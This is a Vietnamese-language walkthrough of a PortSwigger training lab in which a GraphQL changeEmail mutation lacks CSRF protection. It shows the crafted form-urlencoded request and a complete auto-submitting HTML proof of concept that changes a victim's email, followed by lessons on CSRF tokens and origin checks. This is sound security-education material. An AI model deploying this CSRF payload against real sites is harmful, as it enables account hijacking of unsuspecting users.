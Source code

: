 # Write-up: Performing CSRF exploits over GraphQL

### Tổng quan
Khai thác lỗ hổng **Cross-Site Request Forgery (CSRF)** trong ứng dụng web sử dụng API GraphQL, nơi endpoint `/graphql/v1` không kiểm tra CSRF token, cho phép kẻ tấn công gửi mutation `changeEmail` để thay đổi email của người dùng. Bằng cách tạo một PoC CSRF, kẻ tấn công lừa nạn nhân thực thi request đổi email, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **CSRF** trong endpoint GraphQL `/graphql/v1`, sử dụng mutation `changeEmail` để thay đổi email của tài khoản nạn nhân thông qua PoC CSRF, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và truy cập `/my-account`. 
- Quan sát trong Burp Proxy request gửi đến endpoint GraphQL:  
    ![login](./images/1_login.png)
- **Phân tích**:  
  - Endpoint `/graphql/v1` xử lý mutation `changeEmail` để thay đổi email của người dùng đang đăng nhập.  
      ![Email cập nhật thành công](./images/3_change_email.png)  
  - Request không yêu cầu CSRF token, cho thấy khả năng khai thác CSRF

2. **Kiểm tra lỗ hổng CSRF**  
- Gửi request trên đến Burp Repeater và sửa Content-Type thành `application/x-www-form-urlencoded`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0aa400ef041023c980de03ae00db0073.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
  ```  
- Kết quả: Email được cập nhật thành `hacker@hacker.com`, xác nhận endpoint dễ bị CSRF do thiếu kiểm tra token:  
    ![url](./images/4_urlencoded.png)

3. **Khai thác (Exploitation)**  
- **Ý tưởng khai thác**:  
  - Tạo PoC CSRF để lừa nạn nhân gửi request đổi email khi truy cập trang độc hại.  
  - PoC sử dụng form HTML tự động gửi request đến `/graphql/v1` với mutation `changeEmail`.  
- Tạo PoC CSRF:  
  ```html
  <html>
    <body>
      <form action="https://0aa400ef041023c980de03ae00db0073.web-security-academy.net/graphql/v1" method="POST">
        <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
        <input type="hidden" name="operationName" value="changeEmail" />
        <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker3333&#64;hacker&#46;com&quot;&#125;&#125;" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
      </script>
    </body>
  </html>
  ```  
- Lưu PoC vào body của Exploit Server: 
    ![body](./images/5_body.png)

- Nhấn **Deliver to victim** trong Exploit Server:  
  - Nạn nhân truy cập trang độc hại, form tự động gửi request đổi email sang `hacker3333@hacker.com`.  
  - Kết quả: Email của tài khoản nạn nhân (thường là `carlos`) được thay đổi, lab xác nhận hoàn thành:   
    ![Lab hoàn thành](./images/6_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng form HTML tự động gửi mutation `changeEmail` đến `/graphql/v1`, lợi dụng việc thiếu CSRF token để đổi email của nạn nhân.  

### Bài học rút ra
- Hiểu cách khai thác **CSRF** trong API GraphQL, sử dụng mutation `changeEmail` để thay đổi email của nạn nhân thông qua form HTML độc hại.  
- Nhận thức tầm quan trọng của việc triển khai CSRF token trong các endpoint GraphQL, kiểm tra nghiêm ngặt nguồn gốc request (ví dụ: qua header `Origin` hoặc `Referer`), và sử dụng Content-Type `application/json` để hạn chế CSRF.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **CSRF** trong API GraphQL, nhấn mạnh tầm quan trọng của việc triển khai CSRF token và kiểm tra nguồn gốc request để ngăn chặn các hành động trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*